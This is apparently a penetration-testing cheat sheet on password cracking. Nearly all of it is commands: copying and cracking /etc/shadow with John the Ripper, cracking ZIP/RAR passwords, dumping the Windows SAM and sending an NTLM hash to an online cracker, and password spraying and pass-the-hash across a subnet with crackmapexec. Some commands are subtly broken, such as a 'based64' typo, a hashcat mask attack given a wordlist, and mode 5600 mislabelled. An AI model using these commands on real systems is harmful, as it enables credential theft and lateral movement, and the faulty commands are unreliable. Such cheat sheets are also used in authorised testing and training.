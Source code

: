 ### PASSWORD HASHING & CRACKING
#### Identifying hashes
```
# In Kali
hash-identifier
```

#### Decode hashes
```
# Just add your hash type instead of SHA1
findmyhash SHA1 -h yourhash

# decode base64
echo yourhash | based64 -d
```

#### John the Ripper
```
# Copy /etc/shadow and /etc/passwd into text files and combine them
unshadow passwd.txt shadow.txt > passwords.txt

# Crack with john the ripper
john --wordlist=/usr/share/wordlists/rockyou.txt --rules passwords.txt 

# Check if cracked once session finishes
john --show passwords.txt
```
#### John alternate method
```
# Save your password in a file called temp
john temp --wordlist=/usr/share/wordlists/rockyou.txt --fork=4
```
#### John with RAR/ZIP
```
# Get password hash for zip file
zip2john filename.zip > hash.txt 
john --format=zip hash.txt 

# Get password hash for rar file
rar2john filename.rar > hash.txt
john --format=rar hash.txt
```

#### John direct cracking
```
john /etc/shadow
```

#### Hashcat
```
# Copy just the hashes from /etc/shadow into a file called hashes.txt
hashcat -m 500 -a 3 /usr/share/wordlists/rockyou.txt hashes.txt

# Windows hash
hashcat -m 5600 hashes.txt rockyou.txt
```

#### Windows SAM
```
# Use samdump2 from Windows/System32/config
samdump2 SYSTEM SAM

# Send the second part of the hash to hashkiller.co.uk
Username:1000:aad3b435b51404eeaad3b435b51404ee:<this>26112010952d963c8dc4217daec986d9</this>:::
```

### Pass the Password/Hash wtih crackmapexec
```
apt install crackmapexec

# Pass the password around the domain to see where it works
crackmapexec smb 10.0.3.0/24 -u username -d MARVEL.local -p Password1

# Pass the hash
crackmapexec smb 10.0.3.0/24 -u username -H <theHashValue> --local
```
